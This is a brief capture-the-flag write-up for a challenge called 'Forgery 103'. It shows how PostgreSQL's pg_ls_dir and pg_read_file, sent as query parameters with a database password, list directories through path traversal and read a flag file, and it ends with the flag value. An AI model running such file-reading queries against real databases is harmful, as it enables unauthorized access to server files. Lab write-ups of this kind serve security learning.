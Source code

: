 # Forgery 103

If we look at:    
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-file-manipulation

We can see that we can use something like ``select pg_ls_dir('./');`` to check the contents of the remote server and we do get a result that means that we can go back + from the previous challenge we know we are in file:////var/www/html/database/index.php or something like that so we just need to send:

``user=postgres&password=Let%26me%3Din&query=select pg_ls_dir('../../../../../');``

And we see that the flag is written in a .txt file therefore we can also use this to open it:   
``user=postgres&password=Let%26me%3Din&query=select pg_read_file('../../../../../flag_is_in_here_af0d37cc7402f7d3da88033562.txt');``

``FLAG-95z9hr9gRHTfg6J22GSBtu9jTXrg4FQB``
